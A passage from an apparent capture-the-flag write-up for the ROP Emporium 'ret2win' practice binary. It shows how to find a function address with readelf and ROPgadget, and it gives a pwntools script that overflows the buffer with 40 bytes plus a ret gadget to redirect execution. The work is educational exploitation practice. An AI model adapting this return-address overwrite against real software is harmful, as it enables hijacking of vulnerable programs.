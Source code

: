 We now know how many bytes to write before overwriting the return address. The next step is to overwrite the return address with the address of the start of the `ret2win` function. This address can be found either via pwndbg via the disass command as seen previously, or via the readelf command:
```command
bitis@Workstation ~/c/r/ret2win> readelf -a ret2win | grep ret2win
    34: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS ret2win.c
    36: 0000000000400756    27 FUNC    LOCAL  DEFAULT   13 ret2win
```

While we could write our exploit string into a file and then copy and paste our exploit during program execution, it is much easier and faster to use pwntools. Below is an example of a python script using pwntools that exploits the ret2win binary.

```py
from pwn import *

elf = ELF('./ret2win')

"""
Since PIE is disabled, we can find the address of the function ret2win() by using readelf:
    36: 0000000000400756    27 FUNC    LOCAL  DEFAULT   13 ret2win

    However we can also do it using pwntools, since symbols are not stripped:
"""

ret2win_addr = elf.symbols['ret2win']
print("ret2win() address: " + hex(ret2win_addr))

ret_gadget = p64(0x000000000040053e)

# Spawn process, wait until it asks for input
p = elf.process()

p.recvuntil(b'> ')
p.sendline(b'A' * 40 + ret_gadget + p64(ret2win_addr))
p.interactive()
```

Now hold on, what is this `ret_gadget` in the script? Why is it used? I would recommend that you read the [common pitfalls](https://ropemporium.com/guide.html#Common%20pitfalls) section of `ropemporium`, but in short the stack needs to be 16-byte aligned for x86-64 binaries before calling GLIBC functions. One way to accomplish this is to pad our exploit string with a `ret` gadget before returning into a function. 

`ROPgadget` can be used to find this ret instruction:
```console
(ROPgadget)> binary ret2win
[+] Binary loaded
(ROPgadget)> load
[+] Loading gadgets, please wait...
[+] Gadgets loaded !
(ROPgadget)> search ret
---SNIP---
0x000000000040053e : ret
---SNIP---
```
